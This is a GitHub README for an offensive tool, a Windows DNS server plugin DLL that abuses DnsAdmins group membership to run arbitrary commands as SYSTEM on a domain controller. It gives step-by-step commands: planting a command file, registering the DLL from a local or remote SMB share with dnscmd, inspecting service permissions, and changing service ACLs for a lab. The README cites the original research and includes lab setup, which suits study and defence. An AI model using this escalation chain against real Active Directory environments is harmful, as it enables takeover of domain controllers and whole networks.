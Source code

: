 # DNSAdmin DLL

This project is a small implementation of a Windows DNS server
plugin DLL to allow executing a command as local system. For the
original work, please see [Shay Ber's 2017 article][shay] and
a practical guide on [ired.team][ired] that explains how to
implement the attack.

## What is in it

This repo contains a single Visual Studio 2017 project that 
exports the 3 required functions for the DLL to be accepted
by `dns.exe`.

When the `DnsPluginInitialize` is called by the DNS service
during service startup (running as local system), it will 
attempt to read `c:\windows\temp\command.txt`. The contents
of this file will be passed verbatim to [`system`][system].

## Typical usage

Please read the [original work][shay] first to get an idea
of how it functions.

It is assumed that the below is executed from a user account
that is a member of [`DnsAdmins`][dnsadmins] in an AD
environment.


1. Specify the command to be exeucted on the dns server:
    ```
   echo "ping 1.2.3.4" > c:\windows\temp\command.txt
   ```
    It is possible to change this path, e.g. to a remote source
    if needed in the code.
2. Configure the plugin to run when the server is started:
   a. local path
      ```
      dnscmd.exe /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
      ```
   b. remote path
      ```
      dnscmd.exe /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
      ```
3. Wait for the dns service to restart. In a default
   configuration, members of the `DnsAdmins` group do not have
   special access to start/stop the dns service.

   Probably the easiest way to confirm which user has access is
   to try (if you have enough permissions) reading the SDDL of
   the service as follows:
    ```
    sc sdshow dns
    ```
   [woshub.com][sdshow] has some useful information on decoding
   the result. Essentially, you need to look for a discressionary
   access control entry for an account you have access to and
   has `RP` - start service and `WP` - stop service permissions.

When the command is executed with `system` it will block the
calling thread until the underlying process is completed. However,
the DNS server appears to remain functional and answer queries.
For this reason, the code does not attempt to create its own
thread before executing `system`.

## Lab environment

To setup a minimal lab:

1. Setup a Windows 2016 PDC with a single user, see 
   [here][win2016core] for using a good guide to do this on a
   core install.
2. Add user to `DnsAdmin` AD group. (e.g. 
   `Add-ADGroupMember DnsAdmins`) 
3. Configure dns server service acl:
   a. Read SDDL of service
      ```
      > sc sdshow dns
      D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
      ```
   b. Find SID of `DnsAdmins` (e.g. `Get-ADGroup`)
   c. Write SDDL of service by inserting the following access
      control entry (after updating the SID):
      ```
      (A;;CCLCRPWP;;;S-1-5-21-700907644-1504022619-419926652-1101)
      ```
      This will grant `CC`, `LC`, `RP` and `WP` which correlate
      to `sc` commands: `qc`, `query`, `start`, `stop`.

      So the command would be:
      ```
      sc setsd "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;CCLCRPWP;;;S-1-5-21-700907644-1504022619-419926652-1101)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
      ```

## Other bits

Copyright Karim Kanso, 2019. All rights reserved. Licenced under GPLv3.

[shay]: https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83 "Feature, not bug: DNSAdmin to DC compromise in one line"
[ired]: https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise "From DnsAdmins to SYSTEM to Domain Compromise"
[system]: https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/system-wsystem "system, _wsystem | Microsoft Docs"
[dnsadmins]: https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-dnsadmins "Active Directory Security Groups"
[sdshow]: http://woshub.com/set-permissions-on-windows-service/ "How to Allow Non-Admin Users to Start/Stop Windows Service"
[win2016core]: https://medium.com/@rootsecdev/how-to-build-a-server-2016-domain-controller-non-gui-and-make-it-secure-4e784b393bac "How to build a server 2016 domain controller (Non-GUI) and make it secure"